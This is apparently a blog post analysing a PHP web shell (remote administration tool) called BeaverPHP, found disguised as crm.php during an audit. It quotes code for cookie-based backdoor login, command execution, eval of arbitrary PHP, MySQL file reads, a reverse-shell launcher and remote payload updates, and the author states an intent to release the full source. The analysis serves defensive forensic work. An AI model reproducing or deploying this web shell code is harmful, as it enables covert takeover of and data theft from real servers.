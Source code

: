 ```yaml
---
layout: post
category: malware
---
```

## introduction

during a recent security audit, an unusual php script named `crm.php` was identified on the corporate server. initially, the script didn't raise alarms due to its innocuous name, seemingly related to crm software. however, upon deeper inspection, it became clear this was not a legitimate tool but a variant of BeaverPHP, a sophisticated remote administration tool (rat) hidden within php.

### technical analysis of BeaverPHP rat:

#### 1. authentication and persistence:

the RAT authenticates using a hardcoded md5 hashed password stored within the `$admin` array:

```php
$admin=array('check'=>1, 'pass'=>'4da935e43ac3bf33c02c5d3969668004');
```

this allows persistent unauthorized access through simple cookie-based authentication (`godssid`). the session cookie enables repeated covert entry into compromised systems.

the RAT handles authentication with:

```php
if($admin['check']) {
    $password = md5($password);
    if($doing == 'login') {
        if($admin['pass'] == $password) {
            scookie('godssid', $password);
            exit;
        }
    }
    if($_COOKIE['godssid'] != $admin['pass']) loginpage();
}
```

#### 2. system and environment checks:

BeaverPHP extensively gathers server information for reconnaissance:

- server ip and hostname from `$_server` variables.
- os and php version using `php_uname()` and `phpversion()`.
- detection of disabled php functions, identifying potential restrictions for subsequent exploitation.

this is explicitly shown:

```php
$_SERVER['REMOTE_ADDR'], gethostbyname($_SERVER['SERVER_NAME']), @php_uname(), @phpversion(), ini_get('disable_functions')
```

#### 3. file management:

the RAT provides comprehensive file system control:

- create, delete, rename, copy files/directories.
- change file permissions (`chmod`) and timestamps (`touch`).
- upload/download files through http post requests.
- batch file operations including deleting multiple files or compressing files for download:

```php
elseif($doing=='delfiles') {
    foreach ($dl as $filepath => $value) {
        @unlink($filepath);
    }
}
```

#### 4. command execution:

BeaverPHP executes arbitrary system commands via php functions:

- supports `system`, `exec`, `shell_exec`, `proc_open`, and windows com interfaces.
- executes external programs (e.g., `cmd.exe`) with specified parameters, capturing their output:

```php
elseif($haz == 'sh') {
    if(IS_WIN && IS_COM) {
        $shell= new COM('Shell.Application');
        $shell->ShellExecute($program,$parameter);
    }
    echo htmlspecialchars(mycmd($ex));
}
```

#### 5. database interaction:

BeaverPHP includes advanced mysql interaction:

- executes arbitrary sql queries directly.
- performs database or table backups/downloads.
- exploits `load data local infile` to upload files to mysql databases.
- retrieves files from the server using crafted sql queries:

```php
$result = q($lnk, "select load_file('$mysqldlfile');");
```

#### 6. reverse shell (back connect):

includes scripts in perl and c for reverse shell connections to evade network security:

```php
$rv_connect (perl base64-encoded reverse shell script);
$rv_connect_c (c source code for reverse shell);
```

the RAT compiles/executes these scripts, creating remote shells to an attacker-defined ip and port:

```php
if($start && $yourip && $yourport && $use){
    sv_file('/tmp/god_bc',base64_decode($rv_connect));
    mycmd(which('perl')." /tmp/god_bc $yourip $yourport &");
}
```

#### 7. php code execution:

allows arbitrary php code execution through a direct `eval()` interface, granting total runtime control:

```php
elseif($haz=='evl') {
    eval("?".">$phpcode<?");
}
```

#### 8. update mechanism:

features an integrated update function pulling payloads from remote urls:

```php
$update_urls=array('https://raw.githubusercontent.com/<MALWARE_DEV_OWNER>/<MALWARE_DEV_REPO>/main/<FILE>.txt');
```
this allows attackers to introduce new functionalities or maintain persistence without further compromise.

i'm not releasing the source code now but i will release it any moment.

```php
elseif ($haz=='update'){
    $backup_file=trim(str_replace('.php','.bak.php',$_SERVER['SCRIPT_NAME']),'/');
    formhead(array('title'=>'Update Manager'));
    makeselect(array('title'=>'Update urls','option'=>$update_urls,'selected'=>$update_urls[0]));
}
```

#### 9. obfuscation and anti-detection techniques:

- suppresses php error reporting (`error_reporting(0)`) to avoid detection.
- uses seemingly benign file names (`crm.php`) to evade suspicion.
- employs dynamic variable assignments and cookie-based authentication to mask malicious intent.

#### 10. security implications:

the presence of BeaverPHP RAT indicates severe security compromise, granting attackers ongoing remote access, command execution, data exfiltration, and persistent surveillance capabilities. immediate remediation and further forensic analysis are critical.

